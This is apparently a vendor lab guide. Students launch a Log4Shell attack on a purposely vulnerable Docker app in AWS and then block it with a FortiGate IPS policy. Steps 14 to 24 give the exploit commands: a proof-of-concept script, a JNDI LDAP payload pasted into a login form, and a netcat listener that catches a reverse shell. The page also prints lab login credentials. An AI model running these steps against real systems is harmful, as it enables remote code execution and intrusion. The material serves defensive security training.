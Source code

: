 ```yaml
---
title: "3.3 IPS: Log4Shell attack"
weight: 4
---
```

[Log4Shell is a zero-day](https://en.wikipedia.org/wiki/Log4Shell) vulnerability with a CVSS severity rating of 10 and it was largely explored few years ago... and continues to these days. In this lab you will perform some attacks and block it using FGT.

1. The first thing we need to do is to start a Docker container with the vulnerable application
2. In AWS console, go to EC2 menu and click on "Instances"
3. Click "wk-spk1-pub-a" and then click "Connect"
![4 image1](4_image1.png)

4. Click "EC2 serial console" and then "Connect"
![4 image2](4_image2.png)

5. The login information is:

user: **`student`**
password: **`F0rt1n3t`**

6. Inside the console, run the following command:

**`docker run --network host -t -i log4j-shell-poc`**

![4 image17](4_image17.png)
7. Copy its PublicIPs. The application URL (***Log4ShellAPPURL***) will be http://PublicIPs:8080. In this example: http://54.221.177.198:8080
![4 image18](4_image18.png)
8.  Access **Pub-EC2** using **Microsoft Remote Desktop Connection** (or equivalent) with the public IP shown on: AWS Console > EC2 > Instances > Click ***Pub-EC2*** > Public IPv4 address 

![4 image16](4_image16.png)

9.  To login, use the credentials below:

user: **`student`**
password: **`F0rt1n3t`**


{{% notice warning %}}
If shown another screen with "Authentication Required" and Ubuntu user, just click "Cancel"
{{% /notice %}}

10.  Click the 9-dots square to open Firefox (if you dont see the dots, click on "Activities")
![](https://raw.githubusercontent.com/FortiLatam/aws-ql-netsec-pub/main/media/image22.png)

11.  Use Firefox address bar to access the **Log4ShellAPPURL**
12.  You should have accessed the application. Keep this Firefox window open. The application can be slightly different from the image below
13.  Click "**activities**" menu at upper left > 9-dots square > Terminal

![](https://raw.githubusercontent.com/FortiLatam/aws-ql-netsec-pub/main/media/image24.png)
14.  Inside terminal window type:

**`cd log4j-shell-poc`**
**`python3 poc.py \--userip \<PUBLIC_IP\> \--webport 8000 \--lport 9001`**

{{% notice %}}
PUBLIC_IP is the public IP you used to connect to Remote Desktop. You can see it in the "title bar" from remote desktop app, example in the screenshots 52.91.129.42
{{% /notice %}}

15.  Press **enter**
16.  You should see a string starting with \${jndi://ldap....... Copy it
![](https://raw.githubusercontent.com/FortiLatam/aws-ql-netsec-pub/main/media/image25.png)

17. Open a new tab in the terminal window and type:

**`nc -lvnp 9001`**


18. Press **enter**. It starts the **netcat**
19. Leave the terminal window opened
20. Go to the Firefox browser and paste the string copied from step 16 in the **Username** field
21. In the password you can type anything, example: password
22. Click **Login**
23. In the terminal window (with netcat running) you should see a message "Connection received on ..."
24. This means you got remote shell!
25. This terminal window (with netcat running) is now the shell from the pod running the application. You can do whatever you want, as you are... if you type **whoami** and press **enter** in the terminal you'll know...

26. Now you are inside, as an attacker, you could perform a lot of attacks, data exfiltration, lateral movement and many other dangerous activities

{{% notice warning %}}
**Note**: You used a EC2 in other VPC, the access from this EC2 don't go through FortiGate and you also used the external (public) IP, so it could be done from any other machine in the internet
{{% /notice %}}

27. Press ***CTRL+C*** to stop netcat
27. You will block this attack with FortiGate. To do so, you will enable the IPS profile
28. Go to FortiGate GUI
29. To access FortiGate, open AWS Console > EC2 > Instances > click on FortiGate instance (fgt_byol_asg). To see the FortiGate public IP, select the FortiGate, then click "Networking" tab and scroll down:

![4 image5](4_image5.png)

30. Copy this IP and in a new browser tab, paste it to access FortiGate GUI. 
31. FortiGate credentials are in Sharepoint page
32. Change the firewall policy named **Rule for Log4J testing** to be exactly as shown below:
![4 image19](4_image19.png)

33. Now, try to perform the same attack again. If you don't remember, go back 14
36. Different from earlier, now you should not see any connection in your netcat terminal. Go check FortiGate logs
![](https://raw.githubusercontent.com/FortiLatam/aws-ql-netsec-pub/main/media/image29.png)
37. Inside **Logs & Report \> Security Events \> Intrusion Prevention** you will find the log entry blocking Log4Shell.
38. **Lab complete!**
